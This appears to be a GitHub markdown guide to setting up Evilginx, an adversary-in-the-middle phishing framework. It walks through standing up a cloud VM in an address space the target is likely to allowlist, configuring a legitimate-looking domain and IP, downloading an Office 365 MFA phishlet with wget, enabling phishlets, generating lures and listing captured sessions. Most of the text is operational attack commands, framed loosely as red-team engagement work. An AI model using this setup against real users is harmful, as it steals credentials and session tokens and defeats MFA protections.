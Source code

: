 # Evilginx Man-in-the-Middle attack framework

### Github repo: https://github.com/kgretzky/evilginx2

### Resources: https://breakdev.org/evilginx-3-3-go-phish/

## Setup:

### Our Evilginx server needs to be accessible over the internet and for this we can stand up a VM from any cloud provider. If the target uses Azure (for example) then this cloud platform address space is likely to be allowlisted, so it would make sense to stand up an Azure virtual machine in that case. We used a Ubuntu Linux EC2 instance.

 - ./evilginx (Run evilginx)

### After running our built evilginx binary we confirm it's working see that we need to specify the path to a directory containing our Evilginx phishlets. Phishlets are small YAML configuration files that configure Evilginx to target specific websites for phishing attacks. The example phishlet exists in the phishlets directory by default.

 - build/evilginx -p phishlets (Specify a path to a directory containing our Evilginx phishlets)

### Next, we need to configure the domain to use for our phishing campaign. You can register a domain if needed. We have used the domain LEGITIMATE_DOMAIN that looks legitimate (example). We also provide Evilginx with the public IP address of the VM or any redirector you have configured. 

 - config ipv4 external EXTERNAL_IP

 - config domain LEGITIMATE_DOMAIN.COM

 - cd phishlets

 - wget https://raw.githubusercontent.com/faelsfernandes/evilginx3-phishlets/main/o365-mfa.yaml (Navigate to the phishlets directory and download a phishlet of your choosing)

### A few phishing subdomains were specified in the phishlet and we can go ahead and create A host records for them in the DNS management section of our domain (your domain provider may look different).

### In the Evilginx console we can configure the hostname that should be used with the phishlet.

 - phishlets hostname PHISHLET_NAME LEGITIMATE_DOMAIN.COM

 - phishlets enable PHISHLET_NAME

 - phishlets hide EXAMPLE_PHISHLET

### Running Evilginx again we see our phishlet and can now create a lure! Lures are pre-generated phishing links that will be sent out on phishing engagements.

### If you want to check the state of your phishlets at any time, you can do so using the phishlets command. Some other helpful commands are below.

Action                              Command
-----------                         -----------
Function                            Clear-Token 

Start Evilginx                      ./evilginx

Close Evilginx                      exit

Get the phising URL                 lures get-url <lure-id>

Get the config                      config

List all phishlets                  phishlets

List all sessions                   sessions

Get details from specific session   sessions <session-id>

Clear screen                        clear

Hide a phishlet                     phishlets hide <phishlet-name>

Unhide a phishlet                   phishlets unhide <phishlet-name>

